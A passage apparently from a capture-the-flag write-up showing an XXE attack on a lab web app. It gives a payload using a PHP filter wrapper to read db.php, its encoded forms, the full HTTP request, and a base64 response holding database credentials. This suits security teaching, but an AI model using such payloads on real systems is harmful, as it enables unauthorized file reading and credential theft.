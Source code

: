 Simply put our browsers can only render HTML, CSS and JavaScript. PHP is server side

Because we now have a LFI we can use a php wrapper to get the contents of the file, base64 encode it and output it. 
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>&file;</reward>

BASE64
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGRhdGEgWwo8IUVOVElUWSBmaWxlIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vdmFyL3d3dy9odG1sL2RiLnBocCI+IF0+CjxidWdyZXBvcnQ+Cjx0aXRsZT50ZXN0PC90aXRsZT4KPGN3ZT50ZXN0PC9jd2U+CjxjdnNzPnRlc3Q8L2N2c3M+CjxyZXdhcmQ+JmZpbGU7PC9yZXdhcmQ+CjwvYnVncmVwb3J0Pg==

URL ENCODED BASE64
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGRhdGEgWwo8IUVOVElUWSBmaWxlIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vdmFyL3d3dy9odG1sL2RiLnBocCI%2bIF0%2bCjxidWdyZXBvcnQ%2bCjx0aXRsZT50ZXN0PC90aXRsZT4KPGN3ZT50ZXN0PC9jd2U%2bCjxjdnNzPnRlc3Q8L2N2c3M%2bCjxyZXdhcmQ%2bJmZpbGU7PC9yZXdhcmQ%2bCjwvYnVncmVwb3J0Pg%3d%3d
```

Request
```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 367
Origin: http://10.10.11.100
Connection: close
Referer: http://10.10.11.100/log_submit.php

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGRhdGEgWwo8IUVOVElUWSBmaWxlIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT0vdmFyL3d3dy9odG1sL2RiLnBocCI%2bIF0%2bCjxidWdyZXBvcnQ%2bCjx0aXRsZT50ZXN0PC90aXRsZT4KPGN3ZT50ZXN0PC9jd2U%2bCjxjdnNzPnRlc3Q8L2N2c3M%2bCjxyZXdhcmQ%2bJmZpbGU7PC9yZXdhcmQ%2bCjwvYnVncmVwb3J0Pg%3d%3d
```

We get a response of the base64 encoded file
```
    <td>
PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=
	</td>
```
